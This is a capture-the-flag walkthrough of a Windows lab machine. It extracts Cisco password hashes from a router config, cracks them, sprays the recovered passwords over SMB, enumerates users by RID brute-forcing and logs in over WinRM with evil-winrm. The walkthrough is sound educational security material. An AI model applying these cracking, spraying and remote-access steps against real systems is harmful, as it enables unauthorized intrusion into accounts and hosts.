


<br />


<br />

OS -> Windows.

Difficulty -> Easy.

<br />

# Introduction

<br />


<br />

# Enumeration

<br />

We begin with a standard `nmap` scan to identify open ports:

<br />

```bash
❯ nmap -p- 10.10.10.149 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-04 12:58 CEST
Nmap scan report for 10.10.10.149
Host is up (0.051s latency).
Not shown: 65530 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-title: Support Login Page
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -57s
| smb2-time: 
|   date: 2025-07-04T10:58:37
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.29 seconds
```

<br />

Relevant open ports:

- `Port 80` -> http

- `Port 135` -> rpc 

- `Port 445` -> smb 

- `Port 5985` -> winrm

<br />

## Http Enumeration

<br />

The website hosted on port 80 displays a login panel:

<br />



<br />

Although we don't have any credentials, clicking on `Login as guest` grants access to the following interface:

<br />



<br />

There is a user named `Hazard` who is having a discussion with a Support Admin about a problem with a `Cisco router`.

In the user's first message, we can find a button with an `attachment`.

Clicking on this button reveals an interesting `config.txt` file:

<br />

```bash
version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!   
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0Â mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh
```

<br />

This appears to be a configuration file from a `Cisco router`.

<br />

## Cracking Hashes

<br />

The file contains several `Cisco` password hashes:

- enable secret 5 **$1$pdQG$o8nrSzsGXeaduXrjlvKc91**: `Cisco type 5`.

- username rout3r password 7 **0242114B0E143F015F5D1E161713**: `Cisco type 7`.

- username admin privilege 15 password 7 **02375012182C1A1D751618034F36415408**: `Cisco type 7`.

<br />

### Cisco Type 5

<br />

We will start by cracking the `Type 5` hash.

The easiest way to crack it is by using `John the Ripper`:

<br />

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent    (?)     
1g 0:00:00:10 DONE (2025-07-04 14:30) 0.09225g/s 323424p/s 323424c/s 323424C/s stealthy11..stcroixamy
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

<br />

Cracked password: `stealth1agent`

<br />

## Cisco Type 7

<br />

For this type of hash we will use a specific tool from the following [GitHub repository](https://github.com/theevilbit/ciscot7).

The tool is very intuitive and easy to use:

<br />

```bash
❯ python3 ciscot7.py -p "02375012182C1A1D751618034F36415408" --decrypt
Decrypted password: Q4)sJu\Y8qz*A3?d
❯ python3 ciscot7.py -p "0242114B0E143F015F5D1E161713" --decrypt
Decrypted password: $uperP@ssword
```

<br />

Cracked passwords: `Q4)sJu\Y8qz*A3?d` and `$uperP@ssword`

<br />

## SMB Enumeration

## Password Spraying Attack

<br />

At this point, we can try a `Password Spraying Attack` with the information retrieved from the `Cisco` config file:

<br />

```bash
❯ /usr/bin/cat users
hazard
rout3r
admin
❯ /usr/bin/cat passwords
stealth1agent
Q4)sJu\Y8qz*A3?d
$uperP@ssword
```

<br />

To perform the attack, we use `netexec`:

⚠️ NOTE: With the `--continue-on-success` flag, the tool will continue testing all combinations even after finding valid credentials.

<br />

```bash
❯ netexec smb 10.10.10.149 -u users -p passwords --continue-on-success
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] Connection Error: Error occurs while reading from remote(104)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE
```

<br />

Valid credentials found: `hazard:stealth1agent`

<br />

Let's list the `shares` available for this user:

<br />

```bash
❯ netexec smb 10.10.10.149 -u hazard -p stealth1agent --shares
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [*] Enumerated shares
SMB         10.10.10.149    445    SUPPORTDESK      Share           Permissions     Remark
SMB         10.10.10.149    445    SUPPORTDESK      -----           -----------     ------
SMB         10.10.10.149    445    SUPPORTDESK      ADMIN$                          Remote Admin
SMB         10.10.10.149    445    SUPPORTDESK      C$                              Default share
SMB         10.10.10.149    445    SUPPORTDESK      IPC$            READ            Remote IPC
```

<br />

This user only has read permissions on the `IPC$` share.

As we know, `IPC$` refers to a special administrative share that facilitates inter-process communication between a client and a server, so this share is not useful for further exploitation.

<br />

### User Enumeration via RPC 

<br />

Another technique we can use to leverage the cracked passwords is to enumerate additional users via the `RPC` protocol.

To do this, we can use the `--rid-brute` flag on netexec:

<br />

```bash
❯ netexec smb 10.10.10.149 -u hazard -p stealth1agent --rid-brute
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.10.10.149    445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)
```

<br />

We have two new users: `Chase` and `Jason`

<br />

```bash
❯ /usr/bin/cat users
chase
jason
hazard
rout3r
admin
```

<br />

Now we can run the spraying attack again:

<br />

```bash
❯ netexec smb 10.10.10.149 -u users -p passwords --continue-on-success
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\chase:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\jason:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] Connection Error: Error occurs while reading from remote(104)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\jason:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] Connection Error: Error occurs while reading from remote(104)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\jason:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE 
```

<br />

We have a new hit! -> `chase:Q4)sJu\Y8qz*A3?d`

If we test these credentials against `WinRM`, they work as well:

<br />

```bash
❯ netexec winrm 10.10.10.149 -u chase -p 'Q4)sJu\Y8qz*A3?d'
WINRM       10.10.10.149    5985   SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
WINRM       10.10.10.149    5985   SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)
```

<br />

Using the `evil-winrm`, we can access the system:

<br />

```bash
❯ evil-winrm -i 10.10.10.149 -u chase -p 'Q4)sJu\Y8qz*A3?d'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents> whoami
supportdesk\chase
```

<br />

And get the `user.txt` flag:

<br/>

```bash
*Evil-WinRM* PS C:\Users\Chase\Desktop> type user.txt
8dc075d20639f5ed702e0a4ad6xxxxxx
```

<br />

# Privilege Escalation: chase -> administrator:

<br />
